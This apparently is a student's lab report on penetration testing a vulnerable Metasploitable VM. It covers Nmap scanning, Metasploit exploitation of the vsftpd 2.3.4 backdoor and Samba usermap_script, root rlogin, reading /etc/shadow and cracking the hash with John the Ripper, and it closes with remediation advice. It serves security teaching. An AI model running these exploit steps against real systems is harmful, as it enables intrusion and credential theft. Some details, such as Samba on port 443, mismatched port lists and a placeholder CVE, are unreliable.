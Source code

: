 Network Penetration Testing with Real-
World Exploits
and Security Remediation
Project objectives –
The objective of this project is to simulate real-world network penetration testing in
a Controlled environment using Kali Linux and a vulnerable Metasploitable VM. It
includes Scanning, reconnaissance, enumeration, exploitation, user privilege
escalation, password Cracking, and providing remediation.
Introduction –
Penetration testing is a critical component in identifying vulnerabilities and
assessing the security posture of systems. This project involves ethical hacking
techniques to exploit and analyze a target system. It replicates real-world exploitation
techniques to uncover system weaknesses and recommend appropriate remediations.
Theory About the Project –
Network penetration testing is the process of evaluating a system’s network
security by simulating Attacks from malicious outsiders and insiders. The goal is to find
security loopholes before attackers Do. It includes multiple phases:
1. Scanning – Detecting devices and open ports.
2. Reconnaissance – Gathering information about services and OS.
3. Enumeration – Extracting system and service-specific data.
4. Exploitation – Leveraging vulnerabilities to gain unauthorized access.
5. Privilege Escalation – Creating a new user with elevated privileges.
6. Password Cracking – Retrieving passwords from captured hashes.
7. Remediation – Providing fixes and updates for identified vulnerabilities.
Project requirements –
Two Operating System-
1. Kali Linux (Attacking machine)
2. Metasploitable machine ( Target Machine)
Tools Details:
• Kali Linux - The attacker machine, containing pre-installed penetration testing
tools.
• Metasploitable - A vulnerable machine to practice attacks on.
• Nmap - For network scanning, port discovery, OS
detection, and service version enumeration.
• Metasploit Framework - For exploiting known vulnerabilities in services running
on the target.
• John the Ripper - For cracking hashed passwords obtained from /etc/shadow
• Netcat
• VM Manager (VirtualBox/VMware)
Tasks
Network Scanning
Task 1: Basic Network Scan
Step 1: Open a terminal on your Kali Linux machine.
Step 2: Run a basic scan on your local network.
Nmap -v YOUR_IP_RANGE
• nmap -v 192.168.160.131
Task 2 – Reconnaissance
Task 1: Scanning for hidden Ports
Step 1: To scan for hidden ports , we have to scan whole range of ports on that specific
targeted ip address.
nmap -v -p- YOUR_TARGET_IP_ADDRESS
• nmap -v -p- 192.168.160.131
Output:
Total Hidden Ports = 7
List of hidden ports
1. 8787
2. 36588
3. 53204
4. 53452
5. 59437
6. 3632
7. 6697
Task 2: Service Version Detection
Step 1: Use the -sV option to detect the version of services running on open ports:
nmap -v -sV YOUR_TARGET_IP_ADDRESS
• nmap -v -sV 192.168.160.131
Output:
Task 3: Operating System Detection
Step 1: Use the -O option to detect the operating systems of devices on the network:
Nmap -v -O YOUR_TARGET_IP_ADDRESS
• nmap -v -O 192.168.160.132
Output:
Task 3 - Enumeration
Target IP Address ENTER_YOUR_TARGET_IP_ADDRESS
Operating System Details (ADD_YOUR_TARGET_OS_DETAILS)
Target IP Address – 192.168.160.131
Operating System Details –
MAC Address: 00:0C:29:AB:A7:B8 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Services Version with open ports (LIST ALL THE OPEN PORTS EXCLUDING HIDDEN
PORTS)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
22/tcp open ftp OpenSSH 4.7p1 Debian
8ubuntu1 ( protocol 2.0)
23/tcp Open telnet Linux telnetd
25/tcp open smtp Postfix smtpd
53/tcp open domain ISC BIND 9.4.2
80/tcp open http Apache httpd
2.2.8((Ubuntu) DAV/2)
111/tcp open rpcbind 2 (RPC #100000)
139/tcp open netbios-ssn Samba smbd 3.X – 4.X
(workgroup:
WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X – 4.X
(workgroup:WORKGROUP)
512/tcp open exec Netkit-rsh rexecd
513/tcp open login OpenBSD or Solaris
rlogind
514/tcp open tcpwrapped
1099/tcp open java-rmi GNU Classpath
grmiregistry
1524/tcp open bindshell Metasploitable root shell
2049/tcp open nfs 2-4(RPC#100003)
2121/tcp open ftp ProFTPD 1.3.1
3306/tcp open mysql MySQL 5.0.51a-3ubuntu5
5432/tcp open postgresql PostgreSQL DB 8.3.0-8.3.7
5900/tcp open vnc VNC ( protocol 3.3)
6000/tcp open X11 ( access denied)
6667/tcp open irc UnreallRCd
8009/tcp open ajp13 Apache Jserv ( Protocol
v1.3)
8180/tcp open http Apache Tomcat/Coyote
JSP engine 1.1
Hidden Ports with Service Versions (ONLY HIDDEN PORTS)
1. 8787/tcp open drb Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
2. 3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
3. 6697/tcp open irc UnrealIRCd
4. 35851/tcp open mountd 1-3 (RPC #100005)
5. 36571/tcp open nlockmgr 1-4 (RPC #100021)
6. 44585/tcp open java-rmi GNU Classpath grmiregistry
7. 51228/tcp open status 1 (RPC #100024)
Task 4- Exploitation of services
1. vsftpd 2.3.4 (Port 21 - FTP)
• msfconsole
• use exploit/unix/ftp/vsftpd_234_backdoor
• set RHOST 192.168.160.131
• set RPORT 21
• run
2. SMB 3.0.20-Debian (Port 443)
• search smb version
• use auxiliary/scanner/smb/smb_version
• use exploit/multi/samba/usermap_script
• show options
• set RHOST 192.168.160.131
• run
3. Exploiting R Services (Port 512,513,514)
• nmap -p 512,513,514 -sC -sV –script=vuln 192.168.160.131
• rlogin -l root 192.168.160.131
Task 5 - Create user with root permission
adduser your_name
Set a simple password example 12345 or hello or 987654321
Get the details of user in /etc/passwd
Enter details of the new user you have added in Metasploit
• adduser minakshi
• password hello
• sudo usermod -aG sudo minakshi
• cat /etc/passwd | grep minakshi
• minakshi:x:1002:1002:,,,:/home/minakshi:/bin/bash
• sudo cat /etc/shadow | grep minakshi0x ra
• minakshi:$y$j9T$ep3Qv2Hy8a5uO71kK7yOm0$rxMKpQlW2n/XflTYSpcCljAKbKR
OVgZHXHr50E5ed.4:20223:0:99999:7:::
Task 6 – Cracking password hashes
• nano minakshi_hash.txt
• /john minakshi_hash.txt
• /john minakshi_hash.txt –show
Task 7 – Remediation
1. FTP Service (vsftpd)
• Current Version: vsftpd 2.3.4
• Latest Version: vsftpd 3.0.5 (2025)
• Vulnerability:
➔ Backdoor in 2.3.4 allows root shell access via crafted payload.
➔ CVE: CVE-2011-2523
• Impact: Full system compromise by unauthenticated attackers.
• Remediation:
➔ Upgrade to vsftpd 3.0.5 (fully patched)
➔ Or disable FTP entirely and switch to SFTP (via SSH)
2. Samba SMB (Port 443)
• Current Version: Samba 3.0.20
• Latest Version: Samba 4.20.1 (May 2025)
• Vulnerabilities:
➔ Remote Code Execution (RCE)
➔ Session hijacking
➔ Arbitrary file read/write
➔ CVE-2007-2442: Command injection via username map script
➔ CVE-2017-XXXX: Arbitrary code execution
• Impact: Attackers can gain shell access, move laterally, and steal credentials.
• Remediation:
➔ Upgrade to Samba 4.20.1
➔ Disable SMBv1, restrict to trusted IPs only
➔ Harden /etc/samba/smb.conf:
➔ Disable guest access
➔ Enable detailed logging
3. R Services (Ports 512–514)
• Services Affected: rexec, rlogin, rsh (legacy UNIX services)
• Status: Obsolete, insecure, and deprecated
• Vulnerabilities:
➔ Sends plaintext credentials
➔ Vulnerable to MITM and replay attacks
➔ Weak or no authentication
➔ CVE-1999-0651: Allows unauthorized remote access if
.rhosts/hosts.equiv misconfigured
• Impact: Network users can impersonate others and execute remote commands
• Remediation:
➔ Immediately disable rexec, rlogin, and rsh services
➔ Replace with SSH-based alternatives
• Reference: MITRE CVE-1999-0651
Major Learning From this project –
• Developed a comprehensive understanding of penetration testing workflow.
• Gained hands-on experience with Nmap, Metasploit, and John the Ripper.
• Learned to responsibly report and remediate security issues.
• I learned how to create and manage users in Linux and how their details are
stored in system files.
• I understood how passwords are saved in hashed format and how they can
be cracked using tools like John the Ripper with wordlists.
• I also used Nmap to scan systems for open ports, detect services running on
them, and check the operating system. For this, I used commands like nmap
-v to find open ports, nmap -sV to find service versions, and nmap -O to
detect the OS.
• I explored services like SMB and R services, identified outdated or risky
ones, and understood why they should be updated or disabled.
• Understood vulnerabilities associated wit
